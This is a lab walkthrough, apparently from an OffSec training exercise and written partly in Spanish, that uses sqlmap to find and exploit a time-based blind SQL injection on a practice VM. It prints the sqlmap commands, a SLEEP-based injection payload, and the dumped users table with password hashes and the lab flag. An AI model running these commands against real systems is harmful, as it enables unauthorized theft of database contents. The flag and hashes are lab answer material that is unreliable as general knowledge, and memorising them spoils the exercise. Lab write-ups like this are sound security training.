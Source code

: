 # Walk: SQL Injections Attacks - Code Execution - MySQL - VM 3 

## Fecha: 25/01/2025
## Host: Ubuntu
## IP: 192.168.136.19

---

## Objetivo
Connect to the MySQL VM 3 and automate the SQL injection discovery via sqlmap 
as shown in this section. Then dump the users table by abusing the **time-based blind SQLi ** 
and find the flag that is stored in one of the table's records.

---
## Herramientas
1. sqlmap 

---
## Procedimiento y comandos
1. Paso 1: Ejecutamos sqlmap con los parametros **-u** para determinar la URL y **-p** para especificar el parametro a probar:
	- **sqlmap -u http://192.168.136.19/blindsqli.php?user=1 -p user**
	[15:50:04] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
	[15:50:28] [INFO] GET parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
	it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
	for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
	[15:51:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
	[15:51:17] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
	[15:51:27] [INFO] checking if the injection point on GET parameter 'user' is a false positive
	GET parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
	sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
	---
	Parameter: user (GET)
	    Type: time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	    Payload: user=1' AND (SELECT 1962 FROM (SELECT(SLEEP(5)))WPVT) AND 'ySdb'='ySdb
	---
	[15:52:38] [INFO] the back-end DBMS is MySQL
	[15:52:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
	web server operating system: Linux Ubuntu 22.04 (jammy)
	web application technology: PHP, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12

2. Paso 2: De la salida anterior obtenemos que el parametro user es vulnerable a **time-based blind**:
	- **sqlmap -u http://192.168.136.19/blindsqli.php?user=1 -p user --dump --technique=T** // agregamos el parametro --technique=T para evitar 
 pruebas innecesarias especificando la tecnica.
	- --technique= T (time-based blind), B (boolean-based blind), E (error-based), U (Union query) especificamos cualquier tecnica.
	t
	[17:06:32] [ERROR] invalid character detected. retrying..
	his 
	[17:09:31] [ERROR] invalid character detected. retrying..
	is the admin
	[17:16:22] [INFO] retrieved: 1
	[17:16:44] [INFO] retrieved: 212
	[17:18:22] [ERROR] invalid character detected. retrying..
	32f297a57a5a743894a0e4a801fc3
	[17:38:49] [INFO] retrieved: admin
	[17:41:18] [INFO] retrieved: try harder
	[17:46:56] [INFO] retrieved: 2
	[17:47:28] [INFO] retrieved: f9664ea1803311b35f81d07d8c9e072d
	[18:06:40] [INFO] retrieved: offsec
	[18:09:50] [INFO] retrieved: OS{6e1290237c19f8a1cea9e6e9c4484e0f}
	[18:33:11] [INFO] retrieved: 3
	[18:33:43] [INFO] retrieved: 5f4dcc3b5aa765d61d8327deb882cf99
	[18:51:22] [INFO] retrieved: boba
- Obtenemos el falg directamente del --dump process
